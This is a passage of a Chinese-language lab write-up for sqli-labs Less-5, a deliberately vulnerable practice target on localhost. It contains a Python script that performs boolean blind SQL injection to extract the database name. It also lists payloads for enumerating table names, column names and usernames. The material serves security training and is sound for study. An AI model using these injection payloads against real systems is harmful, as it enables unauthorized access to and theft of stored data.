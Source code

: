 ```mysql
            num = num + 1
 
#此函数判断字符串具体的内容
def content(url,str,num):
    s = ['1','2','3','4','5','6','7','8','9','0','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z']
    con_num = 1
    database=''
    while con_num <= num:
        str_num = '%d' %con_num
        for i in s:
            con_url = url + "' and (select mid(database(),"+ str_num +",1)='"+ i +"')--+"
            response = requests.get(con_url)
            if str in response.text:
                database +=i
                print i
        con_num = con_num + 1
    print database
if __name__ == '__main__':
    url = "http://127.0.0.1/sqli-labs-master/Less-5/?id=1"
    response = requests.get(url)
    str = "You are in..........."
    if str in response.text:
        length(url,str)
    else:
        print("请输入正确的地址")   
```

其余的部分参考上述

```mysql
#库中有几个表：
		
1' and ((select count(table_name) from information_schema.tables where table_schema = 'security') = 4)--+

#测表名长度：
	
1' and (select length((select table_name from information_schema.tables where table_schema = 'security' limit 0,1)) = 10)--+

#爆表名：
	
1' and (select mid((select table_name from information_schema.tables where table_schema = 'security' limit 0,1),1,1)='a')--+

#表中有几列：
	
1' and ((select count(column_name) from information_schema.columns where table_name = 'users' and table_schema = 'security') = 3)--+

#测列名长度：
	
1' and (select length((select column_name from information_schema.columns where table_name = 'users' and table_schema = 'security' limit 1,1)) = 8)--+

#爆列名:
	
1' and (select mid((select column_name from information_schema.columns where table_name = 'users' and table_schema = 'security' limit 1,1),1,1)='u')--+

#爆用户名：
	
1' and (select mid((select username from security.users limit 0,1),1,1)='d')--+
```